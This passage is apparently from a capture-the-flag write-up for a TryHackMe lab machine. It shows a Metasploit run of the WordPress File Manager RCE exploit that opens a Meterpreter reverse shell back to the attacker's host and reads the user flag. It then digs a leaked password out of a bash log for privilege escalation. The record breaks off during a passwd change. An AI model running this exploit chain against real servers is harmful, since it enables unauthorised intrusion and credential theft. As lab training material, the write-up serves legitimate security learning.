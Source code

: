 ```bash

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp

msf6 exploit(multi/http/wp_file_manager_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set rport 8080
rport => 8080
msf6 exploit(multi/http/wp_file_manager_rce) > set lhost tun0
lhost => 10.8.162.183
msf6 exploit(multi/http/wp_file_manager_rce) > run
[*] Started reverse TCP handler on 10.8.162.183:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/DcRjvs.php
[*] Sending stage (40004 bytes) to 10.10.152.27
[+] Deleted DcRjvs.php
[*] Meterpreter session 1 opened (10.8.162.183:4444 -> 10.10.152.27:45926) at 2025-07-22 19:29:24 +0200

meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > shell
Process 3362 created.
Channel 0 created.
whoami
cth
cd home
cd cth
ls
user.txt
cat user.txt
THM{227906201d17d9c45aa93d0122ea1af7}

```

# Privilege Escalation

Now for the [[Privilege Escalation]] we find the old password :

```bash
cat /var/log/bash.log
Script started on 2021-03-23 21:05:06+0000
cth@badbyte:~$ whoami
cth
cth@badbyte:~$ date
Tue 23 Mar 21:05:14 UTC 2021
cth@badbyte:~$ suod su

Command 'suod' not found, did you mean:

  command 'sudo' from deb sudo
  command 'sudo' from deb sudo-ldap

Try: sudo apt install <deb name>

cth@badbyte:~$ 'G00dP@$sw0rd2020' 

G00dP@: command not found
cth@badbyte:~$ passwd
Changing password for cth.
(current) UNIX password: 
Enter new UNIX password: 
```